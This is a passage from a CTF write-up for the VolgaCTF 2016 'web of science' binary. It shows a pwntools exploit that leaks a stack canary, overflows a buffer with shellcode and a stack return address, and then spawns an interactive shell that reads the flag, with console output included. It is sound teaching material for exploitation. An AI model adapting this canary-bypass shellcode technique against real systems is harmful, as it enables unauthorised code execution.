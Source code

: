 data = data.split('|')
canary = int(data[1], 16)
stack_addr = int(data[2], 16)
log.info('leaked canary: {}'.format(hex(canary)))
log.info('leaked stack addr: {}'.format(hex(stack_addr)))
for i in range(0,9):
    log.info('Sending calc #{}'.format(i))
    r.sendline(str(i))
    r.recv()
log.info('Sending payload')
payload = shellcode + (136 - len(shellcode)) * 'A' + p64(canary) + 3 * p64(0x0) + p64(stack_addr - 192)
r.sendline(payload)
r.clean()
r.interactive()
{% endhighlight %}

And the exploitation:
{% highlight shell-session %}
$ python2 payload.py 
[+] Opening connection to webofscience.2016.volgactf.ru on port 45678: Done
[*] Sending leak
[*] leaked canary: 0x910766cd33bbf600
[*] leaked stack ptr: 0x7fffffffebb0
[*] Sending calc #0
[*] Sending calc #1
[*] Sending calc #2
[*] Sending calc #3
[*] Sending calc #4
[*] Sending calc #5
[*] Sending calc #6
[*] Sending calc #7
[*] Sending calc #8
[*] Sending payload
[*] Switching to interactive mode
$ ls
flag_wos.txt
install
start_wos
web_of_science
$ cat flag_wos.txt
VolgaCTF{executable_st@ck_doesnt_cause_@ny_problems_d0es_it}
{% endhighlight %}

Well ASLR could have been activated, it would not have changed anything...

[strfmt]: https://www.owasp.org/index.php/Format_string_attack
[callconv]: https://en.wikipedia.org/wiki/X86_calling_conventions#System_V_AMD64_ABI
[pwntools]: https://github.com/Gallopsled/pwntools
